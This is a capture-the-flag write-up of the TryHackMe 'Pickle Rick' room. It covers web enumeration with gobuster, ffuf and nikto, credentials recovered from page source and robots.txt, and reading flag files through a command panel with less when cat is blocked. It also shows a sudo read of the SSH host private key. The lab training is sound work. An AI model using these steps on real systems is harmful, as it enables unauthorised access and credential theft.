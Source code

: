 # Pickle Rick

{% embed url="https://tryhackme.com/room/picklerick" %}

When reading the source code in `http://10.10.253.172/`, we found the following username: `R1ckRul3s`.

...

```bash
gobuster dir -u ... -w ...
...
/assets
/robots.txt
/.htaccess
/.htpasswd
...
```

...

```
$ ffuf -u http://10.10.253.172/FUZZ.php -w ...
```

...

From /robots.txt:

`Wubbalubbadubdub`

...

```bash
$ nikto -h http://<target_ip> -p 80
...
/login.php: Cookie PHPSESSID created without the httponly flag. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies
```

We found the path `/login.php` .



We are presented with a login page. The username and passsword are `R1ckRul3s` and `Wubbalubbadubdub`.

Comment found in `/portal.php`:

`Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0==`

This is a string that has been base64-encoded multiple times. The plaintext value turns out to be `rabbit hole` .

...

_**First ingredient**_:

```bash
$ cat Sup3rS3cretPickl3Ingred.txt # does not work
$ more Sup3rS3cretPickl3Ingred.txt # does not work
$ less Sup3rS3cretPickl3Ingred.txt # WORKS!
mr. meeseek hair


```

_**Second ingredient**_:

```bash
$ ls /home
rick ubuntu

$ ls /home/rick
second ingredients

$ less '/home/rick/second ingredients' # 'more' and 'cat' disable
1 jerry tear

```



```bash
$ sudo -l

Matching Defaults entries for www-data on ip-10-10-49-150:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-10-49-150:
    (ALL) NOPASSWD: ALL
    
$ sudo less /var/log/syslog
...

$ ls -la /etc/ssh
...

$ sudo less /etc/ssh/ssh_host_rsa_key
...
```



_**Third ingredient**_:

```
$
```
